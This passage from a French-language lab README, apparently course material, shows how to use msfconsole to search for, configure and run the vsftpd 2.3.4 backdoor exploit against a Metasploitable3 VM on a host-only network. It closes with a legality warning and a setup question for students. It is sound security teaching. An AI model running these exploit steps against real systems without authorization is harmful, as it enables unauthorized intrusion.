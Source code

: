2. **Recherchez un exploit approprié pour Metasploitable3**. Par exemple, pour exploiter un service FTP vulnérable :

   ```bash
   search vsftpd
   ```

3. **Choisissez et configurez l'exploit** :

   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS 172.28.128.3
   ```

4. **Lancez l'exploit** :

   ```bash
   run
   ```

   Ou

   ```bash
   exploit
   ```

#### **Partie 5: Tester les Exploits et Récolter les Données**

Après avoir lancé l'exploit, observez les résultats. Si l'exploit réussit, vous pourriez obtenir un accès à la machine cible ou recueillir des informations sensibles.

#### **Résumé**

Ce README vous guide sur comment utiliser `msfconsole` pour tester la sécurité de machines dans un environnement virtuel. Assurez-vous de n'utiliser Metasploit que dans un cadre légal, typiquement dans un laboratoire de test ou avec des machines dont vous avez la permission explicite de tester. Toute utilisation non autorisée est illégale et éthiquement répréhensible.

---
# Annexe 3 - Explications - Question à Explorer avec les Étudiants

**Contexte :**  
Vous avez configuré un réseau virtuel Host-Only dans VirtualBox avec les paramètres suivants :

- **Adaptateur Host-Only** : 172.28.128.1/24
- **Serveur DHCP** : 172.28.128.2/24
- **Plage d'adresses permises** : de 172.28.128.3 à 172.28.128.244
- **Adresse IP de Metasploitable3** : 172.28.128.3/24
- **Adresse IP d'Ubuntu 2204** : 172.28.128.5/24

- Vous allez sur la machine Ubuntu et lancez les commandes suivantes :

```bash
snap install metasploit-framework
msfconsole
```
